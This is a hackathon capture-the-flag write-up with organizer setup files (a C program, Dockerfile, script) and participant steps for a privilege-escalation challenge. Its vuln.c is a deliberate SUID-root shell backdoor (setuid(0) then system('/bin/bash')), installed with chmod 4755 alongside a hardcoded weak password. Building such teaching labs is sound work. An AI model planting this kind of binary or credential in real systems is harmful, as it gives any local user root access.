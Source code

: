 Privilege Escalation Challenge Writeup
Overview
This challenge is part of a pentesting lab for a hackathon, focusing on a privilege escalation vulnerability. A misconfigured SUID binary in /usr/local/bin/vuln allows a low-privileged user (tester) to execute commands as root, enabling access to a flag file located at /root/flag.txt. The challenge is hosted in a Docker container based on ubuntu:22.04, accessible via SSH.
Setup Instructions (For Organizers)
This section details how to set up the challenge on a Windows machine using WSL2.
Prerequisites

Windows 10/11 with WSL2 enabled.
Docker Desktop installed with WSL2 integration.
Git installed for version control.
An AWS account (optional, for cloud deployment).

Step-by-Step Setup

Install WSL2 and Ubuntu:

Open PowerShell as Administrator and run:wsl --install


Install Ubuntu 22.04 from the Microsoft Store if not automatically installed.
Set WSL2 as default: wsl --set-default-version 2
Launch Ubuntu: wsl -d Ubuntu-22.04


Install Docker Desktop:

Download and install Docker Desktop from https://www.docker.com/products/docker-desktop/.
Enable WSL2 integration in Docker Desktop: Settings > Resources > WSL Integration > Enable for Ubuntu-22.04.
Restart if prompted.


Install Dependencies in WSL2:

In the WSL2 Ubuntu terminal:sudo apt update && sudo apt install -y git gcc




Create Project Directory and Files:

In WSL2, create a directory: mkdir privesc-lab && cd privesc-lab
Create the following files:
vuln.c: The vulnerable SUID binary source code.
Dockerfile: Configures the Ubuntu 22.04 container.
setup.sh: Script to build and run the container.


File contents are provided in the repository (see GitHub).


Build and Run the Container:

Make the setup script executable: chmod +x setup.sh
Build and run: ./setup.sh
Builds the image as privesc-lab.
Runs the container, mapping port 2222 (host) to 22 (container).




Test Locally:

SSH into the container: ssh tester@localhost -p 2222 (password: password123)
Verify the SUID binary: find / -perm -4000 2>/dev/null
Run the exploit: /usr/local/bin/vuln, then cat /root/flag.txt


Push to GitHub:

Initialize Git: git init, git add ., git commit -m "Privilege escalation challenge"
Push to GitHub: git remote add origin <repo-url>, git push -u origin main
Ensure your partner has access for integration.


Cloud Deployment (Optional):

Push the image to Docker Hub: docker tag privesc-lab <your-dockerhub>/privesc-lab:latest, docker push <your-dockerhub>/privesc-lab:latest
Deploy on AWS ECS/EC2, ensuring SSH port 22 is open only to authorized IPs.



File Contents

vuln.c:#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main() {
    setuid(0);
    system("/bin/bash");
    return 0;
}


Dockerfile:FROM ubuntu:22.04
RUN apt-get update && apt-get install -y gcc openssh-server && rm -rf /var/lib/apt/lists/*
RUN useradd -m -s /bin/bash tester && echo 'tester:password123' | chpasswd
WORKDIR /usr/src/app
COPY vuln.c .
RUN gcc -o /usr/local/bin/vuln vuln.c && chown root:root /usr/local/bin/vuln && chmod 4755 /usr/local/bin/vuln
RUN echo "FLAG{hackathon_privesc_success_2025}" > /root/flag.txt && chown root:root /root/flag.txt && chmod 600 /root/flag.txt
RUN mkdir /var/run/sshd
RUN echo 'PermitRootLogin no' >> /etc/ssh/sshd_config
EXPOSE 22
CMD ["/usr/sbin/sshd", "-D"]


setup.sh:#!/bin/bash
docker build -t privesc-lab .
docker run -d -p 2222:22 --name privesc-container privesc-lab



Challenge Writeup (For Participants)
This section is for hackathon participants to understand and solve the privilege escalation challenge.
Challenge Description
You have SSH access to a server as the user tester. Your goal is to escalate privileges to root and read the flag located at /root/flag.txt. The system contains a misconfigured SUID binary that may help you achieve this.
Connection Details

Host: <server-ip> (or localhost for local testing)
Port: 2222
Username: tester
Password: password123

Steps to Solve

Connect to the Server:

Use SSH to log in:ssh tester@<server-ip> -p 2222


Enter the password: password123


Identify SUID Binaries:

Search for files with the SUID bit set:find / -perm -4000 2>/dev/null


Look for /usr/local/bin/vuln in the output.


Analyze the SUID Binary:

Check the binary’s permissions:ls -l /usr/local/bin/vuln


Output should show: -rwsr-xr-x (the s indicates SUID).


The binary is owned by root and has the SUID bit set, meaning it runs with root privileges.


Exploit the Binary:

Execute the binary:/usr/local/bin/vuln


This spawns a root shell (prompt changes to root@...).


Read the Flag:

In the root shell, read the flag file:cat /root/flag.txt


The flag is: FLAG{hackathon_privesc_success_2025}



Hints

Look for binaries with the SUID bit set, as they may allow privilege escalation.
Test what the vuln binary does when executed—does it behave unexpectedly?
Check if you can access restricted files after running the binary.

Notes

The flag is only readable by root, so you must escalate privileges to access it.
Be cautious when running unknown binaries; in this lab, it’s safe but designed to be exploitable.

Security Considerations

The container is isolated via Docker, with no external exposure beyond SSH (port 22).
Root login is disabled (PermitRootLogin no) to prevent brute-forcing.
The flag file is protected (chmod 600), ensuring it’s only accessible via the exploit.
For hackathon cleanup, stop and remove the container: docker stop privesc-container && docker rm privesc-container

GitHub Repository

All files (vuln.c, Dockerfile, setup.sh) are available in the GitHub repository: <your-repo-url>
Pushed by August 13, 2025, 8 PM, for integration and testing.
